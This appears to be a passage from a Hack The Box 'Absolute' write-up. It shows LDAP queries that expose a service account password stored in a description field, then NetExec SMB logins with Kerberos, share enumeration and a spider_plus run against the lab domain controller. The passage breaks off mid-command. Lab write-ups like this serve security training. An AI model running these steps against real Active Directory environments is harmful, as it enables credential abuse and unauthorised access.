 
```bash
❯ catnp /etc/resolv.conf
# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 192.168.249.2
search localdomain
nameserver 10.10.11.181
```



```bash
❯ ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b 'dc=absolute,dc=htb' "(description=*)" description
SASL/GSSAPI authentication started
SASL username: d.klay@ABSOLUTE.HTB
SASL SSF: 256
SASL data security layer installed.

...[snip]...

# svc_smb, Users, absolute.htb
dn: CN=svc_smb,CN=Users,DC=absolute,DC=htb
description: AbsoluteSMBService123!
```







```bash
❯ nxc smb 10.10.11.181 -u 'svc_smb' -p 'AbsoluteSMBService123!'
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\svc_smb:AbsoluteSMBService123! STATUS_ACCOUNT_RESTRICTION 

❯ nxc smb 10.10.11.181 -u 'svc_smb' -p 'AbsoluteSMBService123!' -k
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\svc_smb:AbsoluteSMBService123! 
```



<pre class="language-bash"><code class="lang-bash">❯ nxc smb 10.10.11.181 -u 'svc_smb' -p 'AbsoluteSMBService123!' -k --shares
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\svc_smb:AbsoluteSMBService123! 
SMB         10.10.11.181    445    DC               [*] Enumerated shares
SMB         10.10.11.181    445    DC               Share           Permissions     Remark
SMB         10.10.11.181    445    DC               -----           -----------     ------
SMB         10.10.11.181    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.181    445    DC               C$                              Default share
SMB         10.10.11.181    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.181    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.181    445    DC               Shared          READ            
SMB         10.10.11.181    445    DC               SYSVOL          READ            Logon server share 
<strong>
</strong><strong>❯ nxc smb 10.10.11.181 -u 'svc_smb' -p 'AbsoluteSMBService123!' -k -M spider_plus